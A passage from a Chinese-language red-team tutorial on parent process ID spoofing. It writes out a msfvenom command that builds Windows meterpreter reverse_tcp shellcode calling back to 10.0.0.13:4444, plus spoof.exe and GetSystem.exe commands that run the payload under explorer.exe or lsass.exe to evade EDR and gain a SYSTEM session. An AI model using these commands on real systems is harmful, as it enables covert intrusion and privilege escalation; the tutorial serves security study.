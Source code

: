```

**return**  **0** **;}**
```

[![](file:///C:\Users\ww\AppData\Local\Temp\ksohtml\wps3F5E.tmp.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201014131041-9b0b8cba-0ddb-1.png)
Metasploit实用程序"msfvenom"可以用于生成c语言的shellcode：

msfvenom  **-** p windows **/** x64 **/** meterpreter **/** reverse_tcp LHOST **=** **10.0.0.13** LPORT **=** **4444** EXITFUNC **=** **thread**  **-** f c **>** pentestlab **.** txt

[![](file:///C:\Users\ww\AppData\Local\Temp\ksohtml\wps3F6E.tmp.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201014131147-c2676d56-0ddb-1.png)
之后替换shellCode[]:
[![](file:///C:\Users\ww\AppData\Local\Temp\ksohtml\wps3F6F.tmp.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201014131231-dcbeb970-0ddb-1.png)
在目标系统上执行二进制文件将创建一个新的进程(Iexplore.exe )，该进程的父进程是explorer.exe，shellcode将通过使用用户模式异步过程调用在internet explorer进程的内存空间中执行:
[![](file:///C:\Users\ww\AppData\Local\Temp\ksohtml\wps3F70.tmp.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201014131247-e63a3286-0ddb-1.png)
之后将会返回一个目标主机的Meterpreter会话：
[![](file:///C:\Users\ww\AppData\Local\Temp\ksohtml\wps3F81.tmp.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201014131306-f19b7004-0ddb-1.png)
查看目标系统的进程将显示"iexplore.exe"已成功创建
[![](file:///C:\Users\ww\AppData\Local\Temp\ksohtml\wps3F82.tmp.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201014131321-fa85557c-0ddb-1.png)
查看进程属性将验证父进程是"explorer.exe"，这个POC实现了一个更隐蔽的进程注入方法来隐藏进程内部的shellcode，并且由于explorer和internet explorer都是有效的，Microsoft系统进程将绕过EDR检测:
[![](file:///C:\Users\ww\AppData\Local\Temp\ksohtml\wps3F83.tmp.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201014131338-0480f766-0ddc-1.png)
Julian Horoszkiewicz基于Didier Stevens的工作开发了一个C++(PPID-Spoof)工具，它可以用于父进程欺骗，并且允许用户选择父进程PID

spoof **.** exe pentestlab **.** exe **1116**

[![](file:///C:\Users\ww\AppData\Local\Temp\ksohtml\wps3F93.tmp.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201014131414-1a342aa6-0ddc-1.png)
一旦在目标主机上创建了进程，将执行任意负载并打开一个会话
[![](file:///C:\Users\ww\AppData\Local\Temp\ksohtml\wps3F94.tmp.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201014131433-251ad906-0ddc-1.png)
在process explorer中查看PID的进程细节可以看到该进程是explorer.exe的子进程：
[![](file:///C:\Users\ww\AppData\Local\Temp\ksohtml\wps3FA5.tmp.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201014131451-30537468-0ddc-1.png)
[![](file:///C:\Users\ww\AppData\Local\Temp\ksohtml\wps3FB6.tmp.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201014131507-39b8da7a-0ddc-1.png)

## **CSharp**

[Getsystem](https://github.com/py7hagoras/GetSystem "Getsystem")二进制文件是用c#开发的，它实现了父进程PID欺骗，以便提升对系统的权限，这是通过类似于F-Secure实验室发布的代码的"CreateProcess"API实现的。.Net binary只接受两个参数，即任意可执行文件和将作为父进程的进程名

GetSystem **.** exe pentestlab **.** exe lsass

[![](file:///C:\Users\ww\AppData\Local\Temp\ksohtml\wps3FB7.tmp.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201014131535-4a70ac94-0ddc-1.png)
进程"pentestlab.exe"将作为"lsass.exe"的子进程在目标主机上创建:
[![](file:///C:\Users\ww\AppData\Local\Temp\ksohtml\wps3FB8.tmp.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201014131552-54639874-0ddc-1.png)
之后将返回一个Meterpreter会话，且为SYSTEM权限：
[![](file:///C:\Users\ww\AppData\Local\Temp\ksohtml\wps3FC8.tmp.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201014131609-5ea55926-0ddc-1.png)
这里的"getsystem"是基于c#的，这使得它能够通过Covenant或任何其他可以加载汇编二进制文件的相关框架(CS)来实现这项技术:
